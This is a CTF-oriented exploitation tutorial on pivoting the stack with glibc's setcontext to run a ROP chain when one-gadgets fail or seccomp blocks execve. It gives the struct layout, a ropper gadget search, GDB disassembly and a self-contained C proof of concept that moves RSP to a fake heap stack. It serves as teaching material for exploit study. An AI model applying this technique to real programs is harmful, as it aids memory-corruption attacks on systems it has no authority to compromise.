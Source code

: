 # Stack pivoting with setcontext

Usually in CTF challenges we have at our disposal a so named _one gadget_ or _magic gadget_ which allows directlly executing `execve("/bin/sh", 0, 0)` by simply controlling the **RIP**. Sometimes this approach is not reliable by a couple of reasons:

- the constraints for _one gadget_ are not satisfied
- the process is sandboxed using **seccomp** and `execve()` is not allowed

To overcome the situation we can try to pivot the stack to a different location (usually the heap) leveraging a classic ROP chain attack. We'll use `setcontext` to conduct our attack.

## Preconditions

- GNU/Linux environment with glibc
- Known address to a contigous (writable) region of memory
- Known base of **libc**
- A way to take control of **RIP** and **RDI**

Instead of writing an actual challenge to exploit, we'll focus on implementing the attack directly in C using a single program. Here are the details of my environment, you'll have to change the offsets according to your own:

```c
/**
 * System
 *  Fedora release 31 (Thirty One)
 *  GNU/Linux 5.6.13-200.fc31.x86_64
 *  ldd (GNU libc) 2.30
 *
 * Compile
 *  gcc setcontext_trick.c -g -o setcontext_trick
 */
```

## Overview of setcontext

`setcontext` is a function from libc used to switch (user-level) contexts between threads. You can read more about it on its [man page](https://linux.die.net/man/2/setcontext). The most interesting thing about it is that a context contains a complete copy of machine's registers including **RSP**, so by calling `setcontext` with a well-crafted structure, we can pivot the stack to an arbitrary location.

We have to dig inside `struct ucontext` so we'll know which filed controls the stack pointer.

```c
typedef struct ucontext {
    struct ucontext *uc_link;
    sigset_t         uc_sigmask;
    stack_t          uc_stack;
    mcontext_t       uc_mcontext;
    ...
} ucontext_t;
```

`mcontext_t uc_mcontext` ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#ucontext_t)) field stores the machine state which contains the saved registers.

```c
typedef struct
  {
    gregset_t __ctx(gregs);
    /* Note that fpregs is a pointer.  */
    fpregset_t __ctx(fpregs);
    __extension__ unsigned long long __reserved1 [8];
} mcontext_t;
```

General purpose registers are stored in `gregs` and they have the following order ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#gregset_t)):

```c
typedef greg_t gregset_t[__NGREG];
#ifdef __USE_GNU
/* Number of each register in the `gregset_t' array.  */
enum
{
  REG_R8 = 0,
# define REG_R8                REG_R8
  REG_R9,
# define REG_R9                REG_R9

...

# define REG_RSP        REG_RSP // 15th index

...
```

In conclusion, our target is `ucontext_t.uc_mcontext.gregs[REG_RSP]`, where `REG_RSP = 15`.

## Problems with the naive approach

Now, we could try to simply call `setcontext` with a fake structure and take control of **RSP** but this would raise two major problems:

- `setcontext` is using the system call `sigprocmask` and it's very probable to be blocked by `seccomp`
- `setcontext` is reloading FPU x87 environment using `fldenv` so we would need to craft a valid structure for it too

```c
// Naive approach
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = 0xcafebabe;

setcontext(ucp);
```

By digging into the [source code](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#__setcontext) of `setcontext` we can find a way to overcome the limitations of this approach.

Lines [47](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#47) and [59](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#59) cause the above mentioned problems. To avoid them, we could jump just after line 60, directly executing the part that reloads general purpose registers. We can find the corresponding offset in the binary by using GDB:

```
(gdb) x/10i setcontext+0x3d
   0x7ffff7e202cd <setcontext+61>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x7ffff7e202d4 <setcontext+68>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x7ffff7e202db <setcontext+75>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x7ffff7e202df <setcontext+79>:	mov    r12,QWORD PTR [rdx+0x48]
   0x7ffff7e202e3 <setcontext+83>:	mov    r13,QWORD PTR [rdx+0x50]
   0x7ffff7e202e7 <setcontext+87>:	mov    r14,QWORD PTR [rdx+0x58]
   0x7ffff7e202eb <setcontext+91>:	mov    r15,QWORD PTR [rdx+0x60]
   0x7ffff7e202ef <setcontext+95>:	test   DWORD PTR fs:0x48,0x2
   0x7ffff7e202fb <setcontext+107>:	je     0x7ffff7e203b6 <setcontext+294>
   0x7ffff7e20301 <setcontext+113>:	mov    rsi,QWORD PTR [rdx+0x3a8]
```

Unfortunately, another problem arises: the structure was previously loaded into **RDX** and we have control only over **RDI**.

## Controlling RDX

As we already know libc's base we have plenty of gadgets to work with. In this case, we need a gadget that allows setting **RDX** by using **RDI** and then calling a function by a controlled pointer. Using `ropper` and some `grep` trickery, we find just the right thing:

```bash
$ ropper -f /lib64/libc.so.6 --nocolor | grep -E "mov rdx, .*rdi" | grep -E "(call|jmp) qword ptr \[rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000012ff3c: add byte ptr [rax], al; add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff3e: add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff40: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
```

The gadget at `0x12ff40` is perfect for our use case.

```asm
# rdi should be our controlled buffer
mov rdx, qword ptr [rdi + 8]; # load a controlled value into rdx
mov qword ptr [rsp], rax;
call qword ptr [rdx + 0x20];  # call using a controlled pointer
```

## Crafting the final payload

Using the knowledge we gained above, we can write our proof of concept exploit:

1. Leak and call primitives

```c
size_t leak_libc() {
    return (size_t)stdout - 0x1c3500;
}

void call(void* p, size_t arg) {
    void (*func_ptr)(size_t) = p;
    func_ptr(arg);
}
```

2. Alloc a fake stack and prepare gadgets' addresses

```c
size_t* fake_stack = malloc(0x200);
for (int i = 0; i < 10; i++) fake_stack[i] = 0xdeadbeef;

size_t setcontext_addr = leak_libc() + 0x4c290;
void* load_rdx = (void*)(leak_libc() + 0x12ff40);
```

3. Create the fake context structure and load it

```c
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = (size_t)fake_stack; // new stack

size_t* raw_ucp = (size_t*)ucp;
raw_ucp[1] = (size_t)ucp; // [rdi+0x8]  = &ucp => rdx = &ucp
raw_ucp[4] = setcontext_addr + 0x3d;   // [rdx+0x20] = setcontext+0x3d

call(load_rdx, (size_t)ucp);
```

Profit!

```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00000000004052a0  →  0x00000000deadbeef
$rbp   : 0x0
$rsi   : 0x0
$rdi   : 0x0
$rip   : 0x0
$r8    : 0x0
$r9    : 0x0
$r10   : 0x3d0
$r11   : 0x00007ffff7f96a40  →  0x0000000000405870  →  0x0000000000000000
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────── stack ────
0x00000000004052a0│+0x0000: 0x00000000deadbeef   ← $rsp
0x00000000004052a8│+0x0008: 0x00000000deadbeef
0x00000000004052b0│+0x0010: 0x00000000deadbeef
0x00000000004052b8│+0x0018: 0x00000000deadbeef
0x00000000004052c0│+0x0020: 0x00000000deadbeef
0x00000000004052c8│+0x0028: 0x00000000deadbeef
0x00000000004052d0│+0x0030: 0x00000000deadbeef
0x00000000004052d8│+0x0038: 0x00000000deadbeef
────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x0
─────────────────── threads ────
[#0] Id 1, Name: "setcontext_tric", stopped 0x0 in ?? (), reason: SIGSEGV
```

## Conclusions

We can use this tehnique in a variety of challenges where getting a ROP chain seems impossible, especially in heap challenges where pivoting using a classic `retn` instruction is not an option and `seccomp` does not allow us to execute the _magic gadget_.
